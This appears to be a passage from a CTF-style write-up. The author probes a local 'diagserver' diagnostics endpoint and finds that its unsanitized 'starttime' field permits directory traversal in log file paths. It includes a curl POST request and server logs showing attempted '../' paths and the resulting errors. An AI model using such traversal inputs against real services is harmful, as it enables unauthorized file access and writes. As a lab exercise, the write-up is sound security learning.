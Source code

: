 It looks like I got lucky with this specifically because I copied the time out of the logs. It appears that the `starttime` value is used as the name of a logfile, but because the time format I (and diagserver) used contained a forward slash `/`, it tried to access a non-existent directory.  It also looked like the path from the previous bit wasn't sanitized at all, so I decided to play around with it a bit to see what I could accomplish.


## directory discovery
Testing out a little bit more:

A starttime of `aaaaaaaaaaaaaaaaaaaaaaaaa` didn't throw an error at all. Unfortunately I wasn't able to directly `curl -X GET` anything out of the filepath that was leaked in the error message, even when I knew an actual valid filename, `aaaaaaaaaaaaaaaaaaaaaaaaa.json`, so `GET` requests seemed like they werent usable for this.
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{"id": "00000000-0000-0000-0000-000000000000","starttime": "aaaaaaaaaaaaaaaaaaaaaaaaa","endtime": "2023/11/04 18:37:55.67755","cmd":"ps","stdout":"","stderr":"","err":""}}'
```
```
2023/11/04 21:41:17 Diagnostic Server starting...
2023/11/04 21:41:22 ready
{diagserver} 2023/11/04 21:41:22.978601 Starting connection timer...
{diagserver} 2023/11/04 21:41:22.978764 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:41:22.978912 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/04 21:41:22.978928 HTTP/1.1 200 OK
{diagserver} 2023/11/04 21:41:22.978933 Content-Length: 75
{diagserver} 2023/11/04 21:41:22.978937 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/04 21:41:23.158752 EOF
```

It looks like I get a `permission denied` when trying to do a directory traversal to write to `/diagnostics/var/logs/commands/by-ip/64/7F/00/`
```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```

when trying to use the directory traversal to reach a directory for an IP that shouldn't have ever connected, I get `no such file or directory`
```
{diagserver} 2023/11/04 19:14:50.762860 Starting connection timer...
{diagserver} 2023/11/04 19:14:50.763007 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:50.763052 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: no such file or directory
{diagserver} 2023/11/04 19:14:50.763062 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:50.763067 Content-Length: 0
{diagserver} 2023/11/04 19:14:50.763071 server to client body:
{diagserver} 2023/11/04 19:14:51.000522 EOF
```
